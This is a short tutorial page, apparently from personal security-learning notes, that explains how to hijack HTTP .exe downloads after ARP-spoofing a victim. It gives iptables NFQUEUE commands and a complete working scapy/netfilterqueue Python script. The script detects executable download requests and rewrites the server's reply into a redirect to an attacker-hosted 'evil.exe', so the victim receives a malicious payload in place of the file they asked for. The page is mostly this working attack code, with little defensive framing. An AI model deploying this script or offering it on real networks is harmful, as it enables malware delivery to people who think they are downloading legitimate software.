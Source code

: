 ```yaml
---
title: "Modifying HTTP download response"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data.  
In this case we check if the victim is downloading a .exe file and we are changing the response from the server so that it includes are own malicious payload.  

We do check against the destination port (dport) and source port (sport). When a sport is present it is a response, when a dport is present it is a request.   

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jwever.bitbucket.io/lan/exploitation/mitm/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  

```python
# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 80:
            if ".exe" in scapy_packet[scapy.Raw].load and "localhost" not in scapy_packet[scapy.Raw].load:
                print("[+] exe Request")
                # add the TCP - ACK number of the TCP packet (the HTTP request packet) to a seperate list so we can check that
                # against the TCP - SEQ number in the response
                ack_list.append(scapy_packet[scapy.TCP].ack)
        elif scapy_packet[scapy.TCP].sport == 80:
            # check if response corresponds to a request in our ack list
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file")
                modified_packet = set_load(scapy_packet,
                                           # note the trailing newlines
                                           "HTTP/1.1 301 Moved Permanently\nLocation: http://localhost:8000/Downloads/evil.exe\n\n")
                packet.set_payload(str(modified_packet))

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
